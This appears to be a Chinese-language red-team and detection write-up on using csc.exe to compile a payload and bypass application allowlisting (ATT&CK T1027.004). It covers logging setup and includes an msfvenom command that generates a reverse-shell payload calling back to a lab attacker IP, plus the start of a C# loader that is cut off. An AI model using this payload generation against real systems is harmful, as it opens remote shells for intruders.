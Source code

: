 # T1027-004-win-使用Csc.exe执行payload（白名单）

## 来自ATT&CK的描述

许多软件开发相关的实用程序可用于执行各种形式的代码用于协助开发、调试和逆向工程。这些实用程序通常可以使用合法证书进行签名。签名后，它们就可以在系统上执行。通过可信的进程代理执行恶意代码，从而有效地绕过应用白名单防御解决方案。

## 测试案例

C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\WINNT\Microsoft.NET\Framework\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放 test.cs文件的目录中，输入下列行命令:csc /target:exe test.cs 将Ttest.cs 编译成名为 test.exe 的 console 应用程序

说明：Csc.exe所在路径没有被系统添加PATH环境变量中，因此，csc命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe

C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### 配置payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp
```

copy buf 到 Micropoor_Csc.cs shellcode中。

#### Micropoor_Csc.cs

```cs
using System;

using System.Net;

using System.Diagnostics;

using System.Reflection;

using System.Configuration.Install;

using System.Runtime.InteropServices;


// msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp

public class Program
```
